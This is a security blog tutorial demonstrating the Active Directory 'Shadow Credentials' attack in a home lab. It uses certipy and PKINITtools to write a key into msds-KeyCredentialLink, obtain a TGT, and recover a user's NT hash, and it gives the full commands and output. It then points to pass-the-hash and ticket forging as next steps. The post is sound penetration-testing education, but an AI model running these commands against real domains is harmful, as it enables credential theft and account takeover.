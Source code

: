 ```yaml
---
layout: post
title: Abusing the msds-KeyCredentialLink Propertie in Active Directory: Understanding Shadow Credentials
subtitle: Using Certipy To Exploit msds-KeyCredentialLink Remotley
tags: [AD]
---
```


# What is a Shadow Credential 
Within Active Directory, both user and computer objects possess an attribute named `msds-KeyCredentialLink`, which serves as a storage location for raw public keys. These public keys can be used in Kerberos to obtain a Ticket Granting Ticket (TGT). Adding a credential/public key to this attribute is known as a "Shadow Credential." A Shadow Credential can then be used in conjunction with a Kerberos extension called Service for User to Self (S4U2Self) to obtain the NT hash of that user. 

When using public key authentication a client can obtain a special Service Ticket that contains their NTLM hash when trying to access a resource that requires it. Inside that Service Ticket is the the Privilege Attribute Certificate (PAC) that contains an entity with the encrypted NTLM hash. We cannot decrypt this because it is encrypted using the key of the service that it is issued for. 

The S4U2Self mechanism allows a user to obtain a Service Ticket for themselves, giving us the ability to decrypt the PAC. S4U2Self Service Tickets are encrypted using the targets session key.

There are two requirements that must be present in order to perform this type of attack
- Active Directory Certificate Services installed on at least a 2016 Domain Controller
- A compromised account that has rights to the `msds-KeyCredentialLink` attribute to whatever user/computer you want to exploit

# Demo
*For this demo I will do the exploitation from a remote kali machine rather than on a windows host.

In my home lab I set up a new account called `sauron` and gave `frodo` write and read permissions for the attribute `msds-KeyCredentialLink`
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/writeshadow.png)

ly4k wrote a great tool called [certipy](https://github.com/ly4k/Certipy) that takes advantage of public Active Directory Certificate Services (AD CS). It has a option called `shadow` that can; list, add, remove ,clear, show info, and auto pwn the `msDS-KeyCredentialLink` attribute. 

Using the `add` command lets me add a new raw public key to the `sauron` account
```
┌──(root㉿kali)-[~]
└─# certipy shadow add -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa'
[*] Adding Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID 'd0d0d6f8-a2ac-20e5-a158-77def64556aa' to the Key Credentials for 'sauron'
[*] Saved certificate and private key to 'sauron.pfx'
```

Looking at the property on suaron's account a new attribute is present 
![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/shadow.png)

Next we can use `gettgtpkinit.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py) to request a TGT using the `.pfx` file generated from `certipy`. It will give us a TGT and the AS-REP encryption key we will use de decrypt the PAC.
```
┌──(root㉿kali)-[~]
└─# python3 gettgtpkinit.py -cert-pfx sauron.pfx lotr.local/sauron out.ccache
2023-05-11 17:24:03,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-05-11 17:24:04,026 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2023-05-11 17:24:04,034 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-05-11 17:24:04,034 minikerberos INFO     9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
INFO:minikerberos:9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421
2023-05-11 17:24:04,037 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

Cache the ticket in our current session
```
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=out.ccache
```

Finally `getnthash.py` by [kirkjanm](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py), will use the TGT to request a PAC using S4U2Self. It will also decrypt the PAC **giving us the NT hash**.
```
┌──(root㉿kali)-[~]
└─# python3 getnthash.py -key 9e2f822b380ed497d02b5b6262e4a79318e1c0109b09c0ac1476cfc5d7cb1421 lotr.local/sauron
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
0f7421a8a3d0b0adcafa6862fd766818
```

`certipy`, has an `auto` command that will add a new Key to the target, authenticate with the key to get the TGT and NT hash, and then clean up.
```
certipy shadow auto -username frodo@lotr.local -p 'Press#123' -account sauron -dc-ip 10.10.1.46

[*] Targeting user 'sauron'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a'
[*] Adding Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Successfully added Key Credential with device ID '3aa7acab-3abc-d4ee-75ad-46913bb33c1a' to the Key Credentials for 'sauron'
[*] Authenticating as 'sauron' with the certificate
[*] Using principal: sauron@lotr.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'sauron.ccache'
[*] Trying to retrieve NT hash for 'sauron'
[*] Restoring the old Key Credentials for 'sauron'
[*] Successfully restored the old Key Credentials for 'sauron'
[*] NT hash for 'sauron': 0f7421a8a3d0b0adcafa6862fd766818
```

These NT hashes can be cracked offline or used in a pass the hash attack. In the event that you have permissions to do this on a computer account you could take an additional step and use `impacket-ticketer` to gain a Service Ticket as HOST or CIFS as an administrator and authenticate to the machine. 

